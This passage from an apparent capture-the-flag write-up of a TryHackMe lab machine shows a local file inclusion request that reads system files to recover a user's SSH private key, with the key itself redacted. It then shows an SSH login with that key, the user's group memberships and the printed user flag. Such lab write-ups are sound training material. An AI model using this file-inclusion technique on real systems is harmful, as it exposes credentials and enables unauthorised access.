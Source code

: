 - I pulled the list of all potential files to enumerate and there's a lot of them so I made a Python script to automate the process. To make your life easier this is the path for SSH key.

  ```
  http://dev.team.thm/script.php?page=/etc/ssh/sshd_config

  #Dale id_rsa
  -----BEGIN OPENSSH PRIVATE KEY-----
  [SNIP!]
  -----END OPENSSH PRIVATE KEY-----
  ```
  
- Copy the key, change it's permission and login with SSH.

  ```
  ssh -i id_rsa dale@10.10.1.78 
  Last login: Mon Jan 18 10:51:32 2021
  dale@TEAM:~$ whoami
  dale
  dale@TEAM:~$ id
  uid=1000(dale) gid=1000(dale) groups=1000(dale),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare),1003(editors)
  ```
  
---

## 🧍 User Privilege Escalation

- First flag is already there, moving to esclation now.

  ```
  dale@TEAM:~$ pwd
  /home/dale
  
  dale@TEAM:~$ ls -al
  total 44
  drwxr-xr-x 6 dale dale 4096 Jan 15  2021 .
  drwxr-xr-x 5 root root 4096 Jan 15  2021 ..
  -rw------- 1 dale dale 2549 Jan 21  2021 .bash_history
  -rw-r--r-- 1 dale dale  220 Jan 15  2021 .bash_logout
  -rw-r--r-- 1 dale dale 3771 Jan 15  2021 .bashrc
  drwx------ 2 dale dale 4096 Jan 15  2021 .cache
  drwx------ 3 dale dale 4096 Jan 15  2021 .gnupg
  drwxrwxr-x 3 dale dale 4096 Jan 15  2021 .local
  -rw-r--r-- 1 dale dale  807 Jan 15  2021 .profile
  drwx------ 2 dale dale 4096 Jan 15  2021 .ssh
  -rw-r--r-- 1 dale dale    0 Jan 15  2021 .sudo_as_admin_successful
  -rw-rw-r-- 1 dale dale   17 Jan 15  2021 user.txt
  
  dale@TEAM:~$ cat user.txt 
  THM{6Y0TXHz7c2d}
  ```

---
